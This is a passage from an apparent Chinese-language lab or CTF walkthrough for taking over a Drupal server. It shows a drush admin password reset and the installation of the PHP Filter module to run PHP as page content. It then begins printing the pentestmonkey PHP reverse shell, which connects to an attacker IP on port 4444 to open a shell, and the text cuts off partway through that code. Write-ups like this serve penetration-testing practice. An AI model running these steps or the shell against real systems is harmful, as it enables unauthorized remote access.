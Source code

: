 尝试web登陆失败

![image-20211005214807409](/assets/img/image-20211005214807409.png)

尝试ssh登陆成功

![image-20211005214900882](/assets/img/image-20211005214900882.png)

使用drush修改admin密码

```
cd /var/www/html
drush user-password admin --password="admin"
```

web使用admin登陆

登录后台,这里参考 https://www.sevenlayers.com/index.php/164-drupal-to-reverse-shell Drupal 后台提权的方法,进入 Manage-->Extend-->List-->Install new module

![img](/assets/img/11-20211005223343176.png)

访问下载插件 https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz ,直接下载或手动上传都行,自选

上传成功后,点击 Enable newly added modules

![img](/assets/img/12-20211005223401242.png)

到 FILTERS 选项，勾选 PHP Filter，点击下方的 Install

![img](/assets/img/13-20211005223411892.png)

回到主页，在左边的 Tools 栏中点击 Add content -> Basic page,Text format 选择 PHP code

![img](/assets/img/14.png)

写入一个 php 反向 shell 即可

找到一个可以直接利用的 php 源码 http://pentestmonkey.net/tools/web-shells/php-reverse-shell

```
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.16.89.2';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
```